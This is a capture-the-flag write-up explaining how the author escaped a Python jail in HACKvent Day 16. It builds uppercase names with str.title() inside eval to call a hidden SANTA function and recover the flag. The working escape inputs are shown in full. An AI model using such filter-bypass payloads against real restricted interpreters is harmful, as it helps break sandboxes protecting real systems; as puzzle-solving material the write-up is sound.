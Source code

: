 Day 16: Try to escape ...
=========================
> *... from the snake cage*
> 
> Santa programmed a secure jail to give his elves access from remote. Sadly the jail is not as secure as expected.

We get a ncat command to connect to a port on a server, `nc challenges.hackvent.hacking-lab.com 1034`. When run we are greeted with a python-like shell:
```
~/D/c/16 ❯❯❯ nc challenges.hackvent.hacking-lab.com 1034
                        _____
                    .-'`     '.
                 __/  __       \\
                /  \ /  \       |    ___
               | /`\| /`\|      | .-'  /^\/^\\
               | \(/| \(/|      |/     |) |)|
              .-\__/ \__/       |      \_/\_/__..._
      _...---'-.                /   _              '.
     /,      ,             \   '|  `\                \\
    | ))     ))           /`|   \    `.       /)  /) |
    | `      `          .'       |     `-._         /
    \                 .'         |     ,_  `--....-'
     `.           __.' ,         |     / /`'''`
       `'-.____.-' /  /,         |    / /
           `. `-.-` .'  \        /   / |
             `-.__.'|    \      |   |  |-.
                _.._|     |     /   |  |  `'.
          .-''``    |     |     |   /  |     `-.
       .'`         /      /     /  |   |        '.
     /`           /      /     |   /   |\         \\
    /            |      |      |   |   /\          |
   ||            |      /      |   /     '.        |
   |\            \      |      /   |       '.      /
   \ `.           '.    /      |    \        '---'/
    \  '.           `-./        \    '.          /
     '.  `'.            `-._     '.__  '-._____.'--'''''--.
       '-.  `'--._          `.__     `';----`              \\
          `-.     `-.          `."'```                     ;
             `'-..,_ `-.         `'-.                     /
                    '.  '.           '.                 .'

Challenge by pyth0n33. Have fun!



The flag is stored super secure in the function SANTA!
>>> a =
```

When providing inputs, we quickly notice that some characters are forbidden and when included return a `Denied`. I compiled a list of authorized characters:
```
a, c, d, e, i, l, n, o, p, r, s, t, v, (, ), +, [, ], ., _
```

Using those I found that the functions `eval`, `print` and `str` are available. We also notice that the string that we input are put in lower case before being interpreted. So no way to call the `SANTA` function directly. Since we can use `eval` we should be able to call this function nonetheless if we cant find a way to "generate" the uppercase letters from our restricted set of possibilities.

Once more I lost a lot of time to search for these SANT letters in every location I thought of. I was at this point:
```
S = str.center.__doc__[0]
N = repr(eval("print(1)"))[0]
T = repr(a.__class__)[12]
```

When I finally understood that I could simply use:
```
A = "a".title()
```

Then it was possible to call the `SANTA` function as follows:
```
>>> a = eval('print(eval("s".title()+"a".title()+"n".title()+"t".title()+"a".title())())')
No flag for you!
```

But no flag for me yet... it was time for some googling and I found a useful article here: <https://lbarman.ch/blog/pyjail/> I thought of disassembling the bytecode we can get using `SANTA.__code__.co_code` but could not find a way to do that. Then I started to put some arguments in the function and had:
```
>>> a = eval('print(eval("s".title()+"a".title()+"n".title()+"t".title()+"a".title())("11111111111111111111111111111"))')
HT31-H67l/guc6/v3gf+w6x|-1cuy
```

The result is similar to a flag and if we fiddle around we get to:
```
>>> a = eval('print(eval("s".title()+"a".title()+"n".title()+"t".title()+"a".title())("1337"))')
HV17
```

And trying to go on I finally found how to generate the flag:
```
>>> a = eval('print(eval("s".title()+"a".title()+"n".title()+"t".title()+"a".title())("13371337133713371337133713371"))')
HV17-J41l-esc4-p3ed-w4zz-3asy
```
